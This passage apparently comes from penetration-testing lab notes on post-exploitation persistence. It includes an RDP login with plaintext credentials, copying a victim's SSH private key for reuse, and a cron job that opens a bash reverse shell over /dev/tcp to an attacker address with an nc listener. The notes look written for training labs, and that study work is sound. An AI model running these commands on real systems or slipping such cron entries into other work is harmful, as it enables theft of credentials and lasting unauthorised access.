 Once you created the user, connect to the target via RDP.

```bash
kali@kali> xfreerdp /u:john /p:pass_123321 /v:10.3.30.156
```

### Linux persistence

#### SSH keys

* Linux is typically deployed as a server operating system and as a result, Linux servers are typically accessed remotely via services/protocols such as SSH.
* If SSH is enablied and running on a Linux system you have compromised, you can take advantage of the SSH configuration to establish persistent access on the target system.
* In most cases Linux server will have key-based authentication enabled for the SSH service, allowing users to access the Linux system remotely without the need for a password.
* After gaining access to a Linux system we can transfer the SSH private key of a specific user account to our system and use that SSH private key for all future authentication and access.

```bash
# copy the victim private key into local
root@attack> scp student@192.59.82.3:~/.ssh/id_rsa .
root@attack> chmod 400 id_rsa
root@attack> ssh student@192.59.82.3
student@victim> rm /home/student/wait
# get kicked out
root@attack> ssh student@192.59.82.3
student@victim> cat /home/student/flag.txt
```

#### Cron jobs

* Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
* An application, or script that has been configured to be run repeatedly with Cron is know as a Cron job.
* We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

<figure><img src="../../.gitbook/assets/130.png" alt=""><figcaption></figcaption></figure>

```bash
root@attacker> ssh student@192.246.71.3  # student:password
student@victim> echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.246.71.2/1234 0>&1'" > cron
student@victim> crontab -i cron
student@victim> crontab -l
student@victim> rm wait
root@attacker> nc -lnvp 1234
# wait max 1 minute
student@victim> cat flag.txt
```

### Dumping & cracking Windows hashes
